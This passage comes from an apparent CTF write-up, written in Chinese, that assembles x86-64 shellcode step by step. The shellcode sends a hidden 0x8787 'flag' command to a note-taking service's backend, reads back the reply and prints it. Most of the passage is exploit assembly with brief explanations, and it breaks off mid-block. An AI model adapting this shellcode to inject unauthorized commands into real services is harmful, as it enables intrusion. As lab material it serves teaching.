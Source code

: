             xor rdx, rdx
            mov dl, 0x10

            syscall
        """
        ```
    3. Write
        這一段主要是置換原本不應該出現的command，因為按照原本程式的流程，只會有CMD_Register→0x1 / CMD_Login→0x2 / CMD_GetFolder→0x11 / CMD_NewNote→0x12等這四種，分別會在對應的操作下傳到backend後讓他做對應的操作，現在我們要把cmd.cmd改成0x8787，之後用write把這個command寫到對應的fd中，如同其他command也那樣操作一樣
        ```python
        # struct Command cmd;
        # cmd.cmd = 0x8787; // #define CMD_Flag 0x8787
        # write(fd, &cmd, sizeof(cmd));
        write = """
            xor r9, r9
            mov r9w, 0x8787
            push r9

            xor rax, rax
            mov al, 0x1

            mov rdi, r8

            mov rsi, rsp

            xor rdx, rdx
            mov dl, 0xa4

            syscall
        """
        ```
    4. Read
        這一段原本的command應該是`read(fd, &res, sizeof(res))`，我們會去接res傳回來的結果，所以後面的size應該直接看res他的結構有多大而定，總共是一個uint32_t的code + 256個char，所以是260 bytes，也就是0x104，並且我們把res的地址傳給\$rsp
        ```python
        # read(fd, $rsp, sizeof(res));
        read = """
            xor rax, rax

            mov rdi, r8

            mov rsi, rsp

            xor rdx, rdx
            mov dx, 0x104

            syscall
        """
        ```
    5. Write 2 Console
        現在我們已經取得backend傳回來的response，但前端還沒辦法顯示，所以我們需要寫到stdout
        ```python
        # write(1, $rsp, 0x40);
        write2console = """
            xor rax, rax
            mov al, 0x1
